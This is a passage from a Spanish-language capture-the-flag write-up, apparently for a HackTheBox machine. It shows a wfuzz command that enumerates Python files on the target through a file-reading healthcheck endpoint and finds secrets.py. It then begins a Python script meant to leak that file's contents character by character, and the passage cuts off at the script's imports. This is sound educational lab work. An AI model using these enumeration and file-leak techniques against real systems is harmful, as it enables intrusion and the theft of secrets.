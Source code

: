 **Resumiendo:

* Podemos enumerar archivos internos de la máquina.
* Podemos obtener el contenido de archivos internos de la máquina víctima.

#### Obteniendo secreto de las cookies

Una ruta interesante para enumerar archivos es la que nos mostraba el *endpoint* *healthcheck*, */var/www/rainycloud*. En este directorio se encuentran todos los ficheros relativos a la página web.  

Utilizaré la herramienta *wfuzz* para descubrir ficheros que se encuentren en */var/www/rainycloud* y que acaben con la extensión *py*

```bash
$> wfuzz -c -u http://dev.rainycloud.htb:8081/api/healthcheck -H 'Cookie: session=eyJ1c2VybmFtZSI6ImphY2sifQ.Y-uccQ.vPW4KvW-f-JyUPq1ABDcK8h-SYw' -d 'file=/var/www/rainycloud/FUZZ.py&type=PYTHON' -t 50 --hc=500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://dev.rainycloud.htb:8081/api/healthcheck
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000895:   200        1 L      1 W        94 Ch       "app"                                                                                                                     
000007909:   200        1 L      1 W        99 Ch       "secrets"       
```

**-c** es formato colorizado.  
**–hc=500** para ocultar respuestas que contengan un código 500 (recordemos que este código se devolvía cuando no existía un archivo).  
**-w** para especificar el diccionario que queremos emplear. Utilizaremos el *directory-list-2.3-medium.txt*. Este diccionario se puede encontrar en el propio *Parrot OS* o en *Kali*. También se puede encontrar en el repositorio de [SecLists](https://github.com/danielmiessler/SecLists).  
**-u** para especificar la *url*. 
*-H* para especificar la cookie (para tramitar la petición necesitaremos estar autenticados como *gary*).
*-d* para especificar los datos que se tramitarán por POST.  **FUZZ** es una palabra clave de *wfuzz* y es donde se sustituirá cada línea del diccionario.
*-t 50* para especificar la cantidad de hilos. A mas hilos mas rápido, pero menos fiable.

Descubrimos un archivo interesante: */var/www/rainycloud/secrets.py*

Ahora, a través de la cláusula *^* de *regex*, obtendremos el contenido de *secrets.py*. Crearemos un *script* en *python* que iniciará un bucle que se ejecutará x veces y, en cada iteración, iterará sobre una lista de caracteres para recomponer el archivo. El *script* es el siguiente:

```python
#!/usr/bin/python3

import sys, signal
from pwn import *
import string
import requests

## Variables globales
letters = string.ascii_uppercase + " _\"':=!()){}[]" + string.digits + string.ascii_lowercase

burp = {"http": "http://127.0.0.1:8080"}


```